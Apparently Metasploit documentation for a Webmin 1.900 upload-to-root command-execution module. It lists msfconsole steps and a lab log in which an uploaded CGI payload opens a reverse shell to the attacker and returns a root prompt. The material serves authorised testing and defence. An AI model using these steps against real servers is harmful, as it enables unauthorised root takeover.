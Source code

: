 ## Description

This module exploits an arbitrary command execution vulnerability in Webmin 1.900 and lower versions. Any user authorized to the "Upload and Download" module can execute arbitrary commands with root privileges. In addition, if the 'Running Processes' (proc) privilege is set the user can accurately determine which directory to upload to. Webmin application files can be written/overwritten, which allows remote code execution. The module has been tested successfully with Webmin 1.900.

## Vulnerable Application

This module has been tested with [Webmin 1.900](https://sourceforge.net/projects/webadmin/files/webmin/1.900/)

## Options

**GUESSUPLOAD**

Use default installation path `/usr/share/webmin/`

## Verification Steps

1. `use exploit/unix/webapp/webmin_upload_exec`
2. `set rhosts <rhost>`
3. `set username <username>`
4. `set password <password>`
5. `exploit`

## Scenarios

### Tested Webmin 1.900 on Ubuntu 18.04 x64

```
msf5 > use exploit/unix/webapp/webmin_upload_exec
msf5 exploit(unix/webapp/webmin_upload_exec) > set rhosts 172.22.222.154
rhosts => 172.22.222.154
msf5 exploit(unix/webapp/webmin_upload_exec) > set username unixuser
username => unixuser
msf5 exploit(unix/webapp/webmin_upload_exec) > set password unixuser
password => unixuser
msf5 exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 6215747dab393701e0acbb9ac5b7c699
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[-] Failed to determine webmin share directory
[-] Set GUESSUPLOAD to attempt upload to a default location
[*] Exploit completed, but no session was created.
msf5 exploit(unix/webapp/webmin_upload_exec) > set guessupload true
guessupload => true
msf5 exploit(unix/webapp/webmin_upload_exec) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[+] Session cookie: 46cbd354e4532fe55d1a462db128905c
[*] Target URL => https://172.22.222.154:10000
[*] Searching for directory to upload...
[!] Could not determine upload directory. Using /usr/share/webmin/
[+] File gxvgsiji.cgi was successfully uploaded.
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (172.22.222.136:4444 -> 172.22.222.154:38960) at 2019-03-14 13:40:56 -0500
[+] Deleted gxvgsiji.cgi

uname -a 
Linux ubuntu 4.18.0-16-generic #17~18.04.1-Ubuntu SMP Tue Feb 12 13:35:51 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
whoami
root
exit
```

